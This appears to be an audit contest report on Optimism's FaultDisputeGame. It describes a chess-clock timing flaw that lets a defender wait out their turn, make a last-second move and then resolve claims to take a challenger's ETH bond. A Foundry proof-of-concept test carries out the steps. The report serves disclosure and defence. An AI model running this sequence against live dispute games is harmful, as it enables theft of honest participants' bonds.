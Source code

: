 Precise Iris Shell

high

# Chess Clock can be gamed, leading to theft of ETH bonds

## Summary
A user is able to defend any claim by gaming the chess clock mechanism. For the scope of this submission, this results in a user being able to steal the ETH bond of any attack, even if it is valid.

## Vulnerability Detail
Assume the following simple claim tree:

```solidity
           A
         B 
       C 
```

`Alice` is the defender who has created the game and submitted the root claim, A. `Bob` is the challenger who correctly demonstrates that the root claim is invalid, B. Alice attacks B with C.

Because of how the game clock mechanism works, Alice can ALWAYS win this scenario and steal Bob's bond from B.

For simplicity, imagine Bob submits his valid claim immediately after the game starts. Alice now has `GAME_DURATION / 2` seconds to make her move. Assume `GAME_DURATION = 7 days`.

Alice waits exactly `3 days 12 hours` and attacks Bob's claim B with claim C. 1 second later, she can now immediately resolve claim C to receive her bond back, resolve claim B which she challenged and will resolve in her favor, and resolve the root claim in her favor.

In all instances, the attacker will want to wait until the last second of the chess clock and then attack, at which time they can resolve immediately.

This vulnerability arises because the chess clock doesn't check each side's (defender/challenger) clock correctly upon resolution. During each `move`, the clock accurately assesses if the party has time on their clock by adding the grandfather move duration and the difference between `block.timestamp` and the parent duration. In simple terms, how much time has the current side that is calling `move` used from their clock?

However, during resolution, the parent claim's clock timestamp is simply checked against `block.timestamp` which doesn't accurately assess how much time the other party actually used up. It simply checks that 3 days 12 hours has passed since that move.

```soldity
        ClaimData storage parent = claimData[_claimIndex];


        // INVARIANT: Cannot resolve a subgame unless the clock of its root has expired
        uint64 parentClockDuration = parent.clock.duration().raw();
        uint64 timeSinceParentMove = uint64(block.timestamp) - parent.clock.timestamp().raw();
        if (parentClockDuration + timeSinceParentMove <= GAME_DURATION.raw() >> 1) {
            revert ClockNotExpired();
        }
```
## Impact
- Theft of ETH Bonds due to gaming of challenge system
- Ability to resolve all root claims in defender's favor

## Code Snippet
https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L409-L416

## Tool used
Manual Review

## Recommendation
The chess clock needs to check that the party of the claim to be resolved has used their time, otherwise any opposing party can wait out the duration while it is their turn, submit a move at the last moment, and then resolve the parent claim.

## Scope validity
The [contest handbook](https://oplabs.notion.site/Public-OP-Stack-Fault-Proofs-Sherlock-Competition-Handbook-e4cfdf210a5c45c79230af19653163cc#9f0b799c8ca941489dc72da65f21e16e) states:

However, please note that the game resolution logic within the FaultDisputeGame is not in scope for this contest. We have chosen to have these components reviewed separately given the complexity of the game resolution logic and its dependencies (including MIPS.sol and others). Although reports about incorrect resolution are appreciated, they will not be considered valid reports for this contest. Participants should assume that the games can resolve incorrectly and should confirm that key invariants hold nonetheless.

### Top-Level Invariants

Invariants listed below are the critical, high-level goals that should be satisfied by the contracts that are in scope of this contest. Always keep these invariants in mind.

#### `FaultDisputeGame`

- Participants must be able to withdraw a credit denominated in ETH exactly equal to but not greater than the credit amount that would be distributed to that user by a fully correct resolution of the `FaultDisputeGame`.

**This submission does not describe incorrect game resolution. Instead it demonstrates how the key invariant that users are not able to withdraw the correct amount of ETH is broken. This is in-scope based on the last line of the Scope section: "Participants should assume that the games can resolve incorrectly and should confirm that key invariants hold nonetheless."**

## POC
This POC demonstrates:
- Bob attacks root claim immediately
- Alice waits for 3 days 12 seconds and attacks Bob's claim
- Alice waits 1 second and then resolves all claims in her favor
- Alice withdraws all of bond value

```solidity
function test_waitUntilLastMinute_succeeds() public {
    address alice = address(0xa11ce);
    address bob = address(0xb0b);
    vm.deal(alice, 100 ether);
    vm.deal(bob, 100 ether);

    // @audit bob attacks root claim
    vm.prank(bob);
    uint256 totalBonds;
    totalBonds += _getRequiredBond(0);
    gameProxy.attack{value: _getRequiredBond(0)}(0, _dummyClaim());

    // @audit Alice strategically waits exactly 3 days + 12 hours before defending
    vm.startPrank(alice);
    vm.warp(block.timestamp + 3 days + 12 hours);
    totalBonds += _getRequiredBond(1);
    gameProxy.defend{value: _getRequiredBond(1)}(1, _dummyClaim());
    (, , , , , , Clock clock) = gameProxy.claimData(2);
    assertEq(
      clock.raw(),
      LibClock
        .wrap(
          Duration.wrap(3 days + 12 hours),
          Timestamp.wrap(uint64(block.timestamp))
        )
        .raw()
    );

    // @audit Alice immediately sends a follow-up transaction to resolve the claims only 1 second later
    vm.warp(block.timestamp + 1 seconds);
    gameProxy.resolveClaim(2);
    gameProxy.resolveClaim(1);
    vm.stopPrank();

    // @audit Resolve the root claim (unnecessary step for this POC but helps to show how Alice has won)
    gameProxy.resolveClaim(0);
    assertEq(uint8(gameProxy.resolve()), uint8(GameStatus.DEFENDER_WINS));

    // Wait for the withdrawal delay.
    vm.warp(block.timestamp + delayedWeth.delay() + 1 seconds);

    uint256 aliceStartingBalance = alice.balance;
    vm.prank(alice);
    gameProxy.claimCredit(alice);
    uint256 aliceEndingBalance = alice.balance;

    // Ensure that bonds were paid out correctly.
    // @audit - Alice holds all the bond value in ETH.
    assertEq(aliceEndingBalance - aliceStartingBalance, totalBonds);
    assertEq(address(gameProxy).balance, 0);
    assertEq(delayedWeth.balanceOf(address(gameProxy)), 0);

    // @audit Alice also wins the entire game, but not worried about that for this contest. This POC shows how actors can game the system to steal WETH
    // ...simply by waiting the entire duration of their own turn.
  }
```